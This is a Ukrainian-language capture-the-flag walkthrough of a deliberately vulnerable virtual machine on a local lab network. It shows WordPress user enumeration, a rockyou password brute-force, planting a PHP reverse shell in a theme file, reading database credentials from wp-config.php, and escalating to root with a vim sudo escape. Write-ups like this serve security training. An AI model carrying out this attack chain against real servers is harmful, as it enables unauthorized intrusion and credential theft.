### **Крок 1: Мережева розвідка (Enumeration)

**1. Пошук IP-адреси жертви.**
Запустіть сканування локальної мережі, щоб дізнатися IP-адресу завантаженої VM:
```sh
netdiscover -r 192.168.160.0/24
```


**2. Сканування відкритих портів цільової машини.**
```sh
nmap -sC -sV -Pn -p- 192.168.160.199
```


**Результат**:  
- Port 80: HTTP (Apache httpd 2.4.18 (Ubuntu))
- Port 4512: SSH (OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (protocol 2.0))

**3. Дослідження вебсервера.**
Відкриваємо в браузері http://192.168.160.199 і отримуємо:



Скористуємось login та отримуємо типове запрошення від `wordpress`:



Це може бути одним із варіантів входу в систему, але будуть потрібні креденшіали.
```sh
dirb http://192.168.160.199
```


**Результат**:
 - /hidden



**Результат**:
- C0ldd
- Hugo
- Philip

Визначили трьох користувачів, далі потрібно більш детально дослідити вордпресс на наявність додаткової інформації.
```sh
wpscan --url http://192.168.160.199/ --enumerate u
```
Знову знаходимо трьох користувачів, вся інша інформація не несе цінності.



Сканер підтверджує наявність користувача **c0ldd**. Наступним кроком запускаємо атаку методом перебору паролів (брутфорс) за допомогою популярного словника `rockyou.txt`
```sh
wpscan --url http://192.168.160.199/ -U c0ldd -P /usr/share/wordlists/rockyou.txt
```
**Знайдені облікові дані**:
- Логін: c0ldd
- Пароль: 9876543210



---

### **Крок 2: Отримання початкового доступу (Reverse Shell)**

**1. Переходимо на сторінку авторизації http://192.168.160.199/wp-login.php та увійдіть в адмін-панель WordPress.**



Відкриваємо редактор тем: Appearance (Зовнішній вигляд) > Theme Editor (Редактор тем).



Обераємо стандартну тему (наприклад, Twenty Fifteen) та знаходимо файл шаблону 404.php або footer.php.



Змінюємо увесь код у файлі на стандартний PHP Reverse Shell (наприклад, скрипт від PentestMonkey).
Обов'язково вкажіть у коді свою IP-адресу (атакуючої машини) та порт (наприклад, 4321). Натисніть Update File.



**2. У терміналі Kali запускаємо слухач Netcat**
```sh
nc -lvnp 4321
```
Активуємо шелл, перейшовши у браузері за прямою адресою зміненого файлу:
`http://192.168.160.199/wp-content/themes/twentyfifteen/404.php`



Команда **pty.spawn("/bin/bash")** покращує таку оболонку, перетворюючи її на більш «справжню» інтерактивну сесію Bash.
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Як результат отримуємо повноцінний командний рядок bash:



---

### **Крок 3: Підвищення привілеїв**

Зараз, коли ми знаходимося всередині сервера, давайте пошукаємо файли, які містять важливу інформацію.
На вебсайті WordPress існує основний файл, що містить базові конфігураційні дані сайту, і він називається `wp-config.php`.
Ми можемо знайти цей файл у `/var/www/html`



Передивляємось зміст файлу `wp-config.php` за допомогою утіліти cat:



**Результат**:
- DB_USER: c0ldd
- DB_PASSWORD: cybersecurity

Спробуємо зайти в сисетму під користовачем **c0ldd** зі знайденим паролем:
```sh
su c0ldd
```
отримуємо результат:



Переходимо до домашнього каталогу користувача та дослідемо його зміст





**Результат**:
```plaintext
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```
Декодуємо за допомогою термінала та отримуємо такий результат-привітання:
```sh
echo "RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==" | base64 --decode
```


**Результат**:
`Felicidades, primer nivel conseguido!`

Визначимо, які саме повноваження є за допомогою команди:
```sh
sudo -l
```


---

### **Крок 4: Підвищення привілеїв до root**

Ми можемо підвищити свої привілеї до root, використовуючи будь-яку з цих трьох команд.
Існує вебсайт під назвою **GTFOBins**, який містить різноманітні прийоми для обходу механізмів безпеки, і ми будемо використовувати цей сайт як допоміжний ресурс під час виконання наших завдань.
`https://gtfobins.github.io/`

Використання **vim**
```sh
sudo vim -c ':!/bin/sh'
```

```sh
cd root
ls
cat root.txt
```
**Результат**:
```plaintext
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```
Декодуємо:
```sh
echo "wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=" | base64 --decode
```
**Результат**:
**¡Felicidades, máquina completada!**



